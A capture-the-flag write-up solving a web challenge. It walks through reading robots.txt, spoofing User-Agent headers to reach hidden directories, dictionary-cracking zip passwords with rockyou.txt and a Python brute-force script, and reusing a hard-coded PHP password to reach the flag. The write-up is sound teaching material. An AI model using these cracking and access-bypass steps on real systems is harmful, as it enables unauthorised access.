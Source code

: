 # Lost treasure (50 pts)

>Ahoy! We 'ave lost a booty 'n know that thar be a map available t' find th' booty.
>Can ye help us find th' booty at <51.68.252.196:8081>.

### [~$ cd ..](../)

We are landed on a flat website:

![site](site.png)

As usual, I checked if there was a robots.txt and found:

>User-agent: BlackPearl  
>Allow: /Isla de Muerta  
>User-agent: Pirate  
>Allow: /TreasureMaps  
>User-agent: *  
>Disallow: /Isla de Muerta  
>Disallow: /TreasureMaps  

I then sent a request with expected User-agent:

```bash
% curl -H "User-agent: Pirate" "http://51.68.252.196:8081/TreasureMaps/"  > TreasureMaps.html
```

and got the following file:

```html
<html>
<head><title>Index of /TreasureMaps/</title></head>
<body bgcolor="white">
<h1>Index of /TreasureMaps/</h1><hr><pre><a href="../">../</a>
<a href="README.txt">README.txt</a>                                         19-Sep-2018 13:44                  98
<a href="map1.zip">map1.zip</a>                                           19-Sep-2018 13:44                1521
<a href="map10.zip">map10.zip</a>                                          19-Sep-2018 13:44                1521
<a href="map11.zip">map11.zip</a>                                          19-Sep-2018 13:44                1521
<a href="map12.zip">map12.zip</a>                                          19-Sep-2018 13:44                1521
<a href="map13.zip">map13.zip</a>                                          19-Sep-2018 13:44                1521
<a href="map14.zip">map14.zip</a>                                          19-Sep-2018 13:44                1521
<a href="map15.zip">map15.zip</a>                                          19-Sep-2018 13:44                1521
<a href="map16.zip">map16.zip</a>                                          19-Sep-2018 13:44                1521
<a href="map2.zip">map2.zip</a>                                           19-Sep-2018 13:44                1521
<a href="map3.zip">map3.zip</a>                                           19-Sep-2018 13:44                1521
<a href="map4.zip">map4.zip</a>                                           19-Sep-2018 13:44                1521
<a href="map5.zip">map5.zip</a>                                           19-Sep-2018 13:44                1521
<a href="map6.zip">map6.zip</a>                                           19-Sep-2018 13:44                1521
<a href="map7.zip">map7.zip</a>                                           19-Sep-2018 13:44                1521
<a href="map8.zip">map8.zip</a>                                           19-Sep-2018 13:44                1521
<a href="map9.zip">map9.zip</a>                                           19-Sep-2018 13:44                1521
</pre><hr></body>
</html>
```

Let's begin with the README:

```bash
% curl -H "User-agent: Pirate" "http://51.68.252.196:8081/TreasureMaps/README.txt"             
  All our zip files are secured with passwords. Only someone called "RockYou" knows the passwords!
```

and the archives:

```bash
for i in {1..16}; do curl -H "User-agent: Pirate" "http://51.68.252.196:8081/TreasureMaps/map$i.zip" -o "map$i.zip" ;done
```

I then naively started with a dictionary attack with rockyou.txt using a for loop on each archive, but realized that it could no work:

```bash
% for i in {1..16}; do fcrackzip -v -u -D -p rockyou.txt map$i.zip; done
```

because `fcrakzip` couldn't handle properly the kind of file:

```bash
% file map1.zip
  map12.zip: Zip archive data, at least v5.1 to extract
% unzip map1.zip
  Archive:  map1.zip
    skipping: f864ae468a              need PK compat. v5.1 (can do v4.6)
```

I looked for a tool is order to crack password quickly, but didn't found. I then realized that I didn't have to crack them all:

```bash
% md5sum *                    
b32697dc1e9e8da35b9732a8e2859657  map10.zip
b32697dc1e9e8da35b9732a8e2859657  map11.zip
b32697dc1e9e8da35b9732a8e2859657  map12.zip
fe2f3b7c371400f331aa9e975bfc825a  map13.zip
b32697dc1e9e8da35b9732a8e2859657  map14.zip
b32697dc1e9e8da35b9732a8e2859657  map15.zip
b32697dc1e9e8da35b9732a8e2859657  map16.zip
b32697dc1e9e8da35b9732a8e2859657  map1.zip
b32697dc1e9e8da35b9732a8e2859657  map2.zip
b32697dc1e9e8da35b9732a8e2859657  map3.zip
b32697dc1e9e8da35b9732a8e2859657  map4.zip
b32697dc1e9e8da35b9732a8e2859657  map5.zip
b32697dc1e9e8da35b9732a8e2859657  map6.zip
b32697dc1e9e8da35b9732a8e2859657  map7.zip
b32697dc1e9e8da35b9732a8e2859657  map8.zip
b32697dc1e9e8da35b9732a8e2859657  map9.zip
b828b8825c21ac97afce52afbaac5ca6  README.txt
432e5e794481c58c572905d67c27d189  TreasureMaps.html
```

I then kept only [map12.zip](map12.zip) and [map13.zip](map13.zip) and wrote a (non-optimized) Python script to break the passwords:

```python
import subprocess
f = open('pirate.txt', 'r')
passwords = f.read().splitlines()
f.close()
for word in passwords:
	cmd = '7z e -y map12.zip -p%s' % word
	process = subprocess.Popen(cmd.split(), stdout=subprocess.PIPE,stderr=subprocess.PIPE)
	output, error = process.communicate()
	if "ERROR" not in error:
		print word
		process = subprocess.Popen('wc f864ae468a'.split(), stdout=subprocess.PIPE,stderr=subprocess.PIPE)
		output, error = process.communicate()
		print output
		print '-------------'
```

I made the assumption that they were related to the theme of the piracy.
I then `grep`'d rockyou in this way and run the script:

```bash
% grep rockyou.txt -ie pirate > pirate.txt
% run brute.py
 ohs pirate
 0 0 0 f864ae468a

 -------------
 pirates arr cool
 0 0 0 f864ae468a

 -------------
 pirate girl
 0 0 0 f864ae468a

 -------------
 my pirate
 0 0 0 f864ae468a

 -------------
 iwannabeapirate
 90  209 3677 f864ae468a

 -------------
 i luv pirate forever
 0 0 0 f864ae468a
% 7z e -y map13.zip -piwannabeapirate

 7-Zip [64] 16.02 : Copyright (c) 1999-2016 Igor Pavlov : 2016-05-21
 p7zip Version 16.02 (locale=fr_FR.utf8,Utf16=on,HugeFiles=on,64 bits,4 CPUs Intel(R) Core(TM) i5-4200U CPU @ 1.60GHz (40651),ASM,AES-NI)

 Scanning the drive for archives:
 1 file, 1521 bytes (2 KiB)

 Extracting archive: map13.zip
 --
 Path = map13.zip
 Type = zip
 Physical Size = 1521

 Everything is Ok

 Size:       3677
Compressed: 1521
```

Password found! I then used **"iwannabeapirate"** and extract the file [f864ae468a](f864ae468a):

```php
<?php
if (isset($_POST['submit'])){
	if($_POST["password"] == "todayisagoodday") {
		header("Location: "); //TODO: add treasure location
		die();
	}
	else {
		header("Location: brrrt.html");
		die();
	}
}
?>
...
```

I then sent the following request to get the location of the treasure:

```bash
% curl -d "submit=&password=todayisagoodday" -H "User-agent: BlackPearl" "http://51.68.252.196:8081/Isla de Muerta/index.php"  -v
 *   Trying 51.68.252.196...
 * TCP_NODELAY set
 * Connected to 51.68.252.196 (51.68.252.196) port 8081 (#0)
 > POST /Isla de Muerta/index.php HTTP/1.1
 > Host: 51.68.252.196:8081
 > Accept: */*
 > User-agent: BlackPearl
 > Content-Length: 32
 > Content-Type: application/x-www-form-urlencoded
 >
 * upload completely sent off: 32 out of 32 bytes
 < HTTP/1.1 302 Moved Temporarily
 < Server: nginx/1.12.2
 < Date: Thu, 04 Oct 2018 16:32:14 GMT
 < Content-Type: text/html
 < Transfer-Encoding: chunked
 < Connection: keep-alive
 < X-Powered-By: PHP/5.4.16
 < Location: Treasure-fipeaifaeaFAFAEfa2eaf78af27zaaerdfae87.html
 <
 * Curl_http_done: called premature == 0
 * Connection #0 to host 51.68.252.196 left intact
```

And capture the flag

```bash
 % curl -H "User-agent: BlackPearl" "http://51.68.252.196:8081/Isla de Muerta/Treasure-fipeaifaeaFAFAEfa2eaf78af27zaaerdfae87.html"  -v
 *   Trying 51.68.252.196...
 * TCP_NODELAY set
 * Connected to 51.68.252.196 (51.68.252.196) port 8081 (#0)
 > GET /Isla de Muerta/Treasure-fipeaifaeaFAFAEfa2eaf78af27zaaerdfae87.html HTTP/1.1
 > Host: 51.68.252.196:8081
 > Accept: */*
 > User-agent: BlackPearl
 >
 < HTTP/1.1 200 OK
 < Server: nginx/1.12.2
 < Date: Thu, 04 Oct 2018 16:33:14 GMT
 < Content-Type: text/html
 < Content-Length: 317
 < Last-Modified: Wed, 19 Sep 2018 13:44:20 GMT
 < Connection: keep-alive
 < ETag: "5ba252b4-13d"
 < Accept-Ranges: bytes
 <
 <head>
  <title>Treasure</title>
  <style>
    html, body, .container {
        height: 100%;
    }
    .container {
        color: white;
        display: none;
    }
  </style>
</head>
<body>
  <h1>Treasure</h1>
  <div class="container">
    <p>AllTreasuremapsLeadToATreasure</p>
  </div>
</body>
* Curl_http_done: called premature == 0
* Connection #0 to host 51.68.252.196 left intact
```

FLAG: **AllTreasuremapsLeadToATreasure**
